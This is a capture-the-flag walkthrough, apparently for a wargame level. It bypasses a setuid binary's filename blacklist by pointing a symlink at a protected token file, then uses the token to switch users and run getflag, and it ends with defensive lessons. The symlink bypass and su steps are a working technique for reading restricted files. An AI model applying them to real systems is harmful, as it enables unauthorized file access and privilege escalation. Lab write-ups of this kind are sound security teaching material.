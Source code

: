 
---
### 🔎 Challenge Summary

> This level includes a binary that restricts users from accessing any file whose name contains the word `"token"`.  
> The goal is to **bypass this naive blacklist** and read the restricted file anyway.

**Login:** `level04 : level04`  
**Target file:** `/home/flag04/token`  
**Binary:** `/home/flag04/flag04`

---

### 🧬 Source Code Analysis

```c
if(strstr(argv[1], "token") != NULL) {
    printf("You may not access '%s'\n", argv[1]);
    exit(EXIT_FAILURE);
}
```

🚨 **Issue:**  
The program checks the **filename string**, not the actual file contents or file path once resolved.  
That means symbolic links or hard links can bypass this check.

---

### 🎯 Goal

Trick the program into reading the contents of the `token` file **without using the word `token` in the argument**.

---

### 🛠️ Exploitation Process

#### 🪝 Step 1: Create a symlink

```bash
ln -s /home/flag04/token /tmp/sneaky
```

This creates a symbolic link named `/tmp/sneaky` pointing to the real `token` file.

#### ⚙️ Step 2: Run the binary using the symlink

```bash
cd /home/flag04
./flag04 /tmp/sneaky
```

✅ Output:

```
06508b5e-x-x-x-x
```

You've successfully read the restricted file.

---

### 🔓 Step 3: Use the token

Now that you have the token, you can proceed as the next user (if required):

```bash
su flag04
Password: [paste token]
getflag
```

✅ Output:

```
You have successfully executed getflag on a target account
```

---

### 📘 Lessons Learned

This challenge highlights how **blacklist-based security** — especially when applied to **string comparisons on filenames** — is fundamentally weak.

🧠 **Key Takeaway:**

> Don’t trust input string checks when dealing with file access control. Use resolved paths or permission-based checks (e.g., `realpath()`, inode comparisons) instead.

---
	